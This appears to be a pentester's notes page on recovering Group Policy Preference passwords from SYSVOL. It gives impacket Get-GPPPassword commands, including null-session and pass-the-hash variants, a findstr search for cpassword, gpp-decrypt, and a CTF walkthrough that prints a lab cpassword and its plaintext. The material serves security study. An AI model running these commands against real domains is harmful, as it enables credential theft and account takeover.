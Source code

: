 # GPP (Group Policy Preference) credential discovery

Group Policy Preferences (GPP) allowed administrators to create domain policies with embedded credentials. These policies allowed them to set local accounts, and embed credentials for various purposes that may otherwise require an embedded password in a script. So when a new Group Policy Preference (GPP) is generated, a xml file (generally Groups.xml) with the configuration data, including any passwords associated with the GPP, is created in the SYSVOL share which are folders on domain controllers accessible and readable to all authenticated domain users.

Group Policies for account management are stored on the Domain Controller in "Groups.xml" files buried in the SYSVOL folder.&#x20;

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

While some of these files may only contain something as simple as a configuration to rename an existing account, what we are interested in as pen testers are files that contain the "cpassword" field. These policies will actually set the password for the contained account. Below is a screenshot of one such file from the Domain Controller:

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

## Attacks&#x20;

### 1. Use impacket module to get the password.&#x20;

```bash
#with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

#with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

#pass the hash(with an NT hash)
Get-GPPPassword.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

#parse a local file
Get-GPPPassword.py -xmlfile '/path/to/Policy.xml' 'LOCAL'
```

### 2. After accessing to the target machine, and find a xml file

```bash
CMD> findstr /S /I cpassword \\<DOMAIN>\sysvol\<DOMAIN>\policies\*.xml
```

After you find the password, decrypt the password.

```bash
Kali> gpp-decrypt <hash>
```

### 3. CTF: You may find SYSVOL files via any open ports

Maybe, you may find the Policies information that can be downloaded to a Kali machine.&#x20;

{% code overflow="wrap" %}
```bash
Kali> smbclient \\\\ip_address\\share
smb> mget * (to list all the files including policies)

Kali> grep password active.htb/* -r

# active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
	
# name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" 
```
{% endcode %}

### Decrypt the cpassword

{% code overflow="wrap" %}
```bash
Kali> gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

#GPPstillStandingStrong2k18
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>
